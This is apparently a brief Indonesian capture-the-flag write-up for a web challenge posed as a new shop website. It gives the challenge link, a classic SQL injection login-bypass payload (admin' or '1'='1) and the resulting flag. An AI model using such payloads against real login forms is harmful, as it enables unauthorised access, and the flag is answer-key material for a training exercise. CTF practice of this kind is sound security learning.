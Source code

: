Toko meranti baru saja merilis website nyaa, kalian kan pentester coba deh dicari tau bugnya dimana :D

Link : https://web.ctf.rasyidmf.com/chal36/

Payload:
```
admin' or '1'='1
```

Flag
```
CTFR{b3c4r3_fu11_w1th_byp455_l0g1n}
```